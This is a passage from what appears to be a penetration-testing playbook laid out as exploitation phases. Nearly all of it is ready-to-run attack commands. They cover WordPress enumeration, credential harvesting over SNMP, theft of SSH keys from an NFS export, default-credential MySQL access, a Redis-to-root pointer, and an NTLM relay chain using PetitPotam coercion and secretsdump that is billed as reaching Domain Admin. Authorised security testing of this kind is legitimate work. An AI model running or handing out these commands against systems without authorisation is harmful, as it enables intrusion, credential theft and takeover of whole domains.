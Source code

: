 ```bash
# 4. If WordPress:
wpscan --url http://TARGET --enumerate vp,vt,u --api-token TOKEN

# 5. Manual testing in Burp
# - SQLi on all inputs
# - XSS on all inputs  
# - File upload if present
# - Auth bypass attempts
```


### Phase 4: Exploitation

**Priority 1: Services That Give Credentials**

These are your quick wins that unlock more access:

```bash
# SNMP credential extraction (5 min each)
snmpwalk -v2c -c public TARGET > snmp_output.txt
grep -i "password\|credential" snmp_output.txt
# → Test found credentials immediately on SSH/SMB/databases

# Redis to root (2 minutes)
# If redis-cli -h TARGET ping works:
# → Follow redis SSH key injection (see service playbook)
# → Instant root shell

# NFS SSH key theft (10 minutes)
# If /home exported:
sudo mount -t nfs TARGET:/home /mnt/nfs
find /mnt/nfs -name "id_rsa"
# → Copy key, SSH as that user

# MySQL default credentials (3 minutes)
mysql -h TARGET -u root
# → Extract database, find credentials in tables
# → Test credentials on other services
```

**Priority 2: Active Directory Compromise**

**If SMB Signing Disabled:**
```bash
# Terminal 1:
impacket-ntlmrelayx -t ldaps://DC_IP --escalate-user LOWPRIV_USER --delegate-access

# Terminal 2:
python3 PetitPotam.py -u LOWPRIV_USER -p 'PASS' ATTACKER_IP DC_IP

# Terminal 1 shows success, then:
impacket-secretsdump 'DOMAIN/LOWPRIV_USER:PASS@DC_IP' -just-dc

# → Domain Admin achieved
# → CRITICAL finding created
# → Move on to other targets
```
